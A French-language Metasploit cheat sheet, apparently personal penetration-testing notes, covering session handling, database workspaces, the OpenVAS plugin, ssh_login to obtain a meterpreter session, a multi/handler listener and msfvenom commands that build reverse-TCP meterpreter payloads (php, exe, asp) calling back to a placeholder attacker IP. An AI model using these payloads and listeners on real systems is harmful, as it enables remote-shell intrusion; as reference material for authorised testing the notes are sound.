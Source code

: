 # metasploit

## Commandes de base

### Gestion sessions

Pour lister les sessions en cours :
```
msf> sessions -l
```

Pour basculer sur une session existante :
```
msf> sessions -i <id_session>
```

Pour passer une session en arrière plan :
```
meterpreter> background
```

### Listener

Lancer un listener en attente d'un reverse tcp meterpreter windows :
```
msf> use multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST <ip_kali>
msf> set LPORT <port_ecoute>
msf> exploit -j
```

## Base de données

On va travailler avec *PostgreSQL* qui est la base de données par défaut
dans *metasploit*.

### La première fois

Il faut d'abord lancer *PostgreSQL* puis initialiser la base de données
pour *metasploit* :
```
sudo systemctl start postgresql
msfdb init
```

Cela crée une base de données `msf` et un utilisateur `msf`.
Au démarrage de `msfconsole`, *metasploit* se connectera automatiquement à
cette base de données.
On peut vérifier qu'on est bien connecté :
```
msf> db_status
```

### Workspaces

On peut ensuite travailler avec des *workspaces* pour ranger ses différents
scans.

Pour lister les *workspaces* disponibles :
```
msf> workspace
```

Pour sélectionner un *workspace* :
```
msf> workspace <workspace_name>
```

Pour créer un *workspace*, on utilise l'option `-a` et pour supprimer un
*workspace* `-d`.
Plus d'information avec l'option `-h`.

### Importation de données

Pour importer des données dans la base :
```
msf> db_import <filename_to_import>
```

Pour faire un scan `nmap` et importer directement les résultats :
```
msf> db_nmap <...classical_nmap_options...>
```

### Lire des données

Pour voir les services scannés :
```
msf> services
```

Pour voir les hôtes scannés :
```
msf> hosts
```

On peut ajouter des éléments à afficher :
```
msf> hosts -c address,os_flavor,svcs,vulns
```

Pour voir les vulnérabilités trouvées :
```
msf> vulns
```

## OpenVAS dans Metasploit

Lancer d'abord une instance `OpenVAS`. Par défaut, l'interface web écoute sur
le port 9392 et le scanner sur le port 9390.

Pour lancer le plugin `OpenVAS` dans `metasploit` :
```
msf> load openvas
```

On se connecte à l'instance `OpenVAS` :
```
msf> openvas_connect <login> <password> 127.0.0.1 9390 ok
```

Pour lister les targets disponibles :
```
msf> openvas_target_list
```

Pour créer une nouvelle target :
```
msf> openvas_target_create <name> <ip> <comment>
```

Pour lister les configurations de scan possibles :
```
msf> openvas_config_list
```

Pour créer une task :
```
msf> openvas_task_create <name> <comment> <config_id> <target_id>
```

Pour lister les tasks :
```
msf> openvas_task_list
```

Pour lancer un scan :
```
msf> openvas_task_start <id>
```

Pour lister les rapports disponibles :
```
msf> openvas_report_list
```

Pour afficher les différents types de rapport disponibles :
```
msf> openvas_format_list
```

Pour télécharger un rapport :
```
msf> openvas_report_download <report_id> <format_id> <path> <report_name>
```

Pour importer un rapport dans metasploit :
```
msf> openvas_report_import <report_id> <format_id>
```

## Meterpreter

### Ouvrir un shell meterpreter à partir d'une connexion ssh

On peut utiliser le module `ssh_login` :
```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set RHOSTS 10.10.10.10
msf auxiliary(ssh_login) > set USERNAME foo
msf auxiliary(ssh_login) > set PASSWORD bar
msf auxiliary(ssh_login) > exploit
msf auxiliary(ssh_login) > sessions -u 1
```

## Payloads

### php (meterpreter)

Pour créer un payload *php/meterpreter* en reverse tcp sur le port 4444 :
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f raw > payload.php
```

### windows exe (meterpreter)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f exe > shell.exe
```

### windows asp (meterpreter)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f asp > shell.asp
```

## Sources

* <https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf>
* <https://www.ehacking.net/2011/11/how-to-use-openvas-in-metasploit.html>
* <https://www.offensive-security.com/metasploit-unleashed/using-databases/>
* <https://netsec.ws/?p=331>
* <https://dotweak.com/fr/2019/08/12/comment-creer-un-payload-metasploit-60545791/>
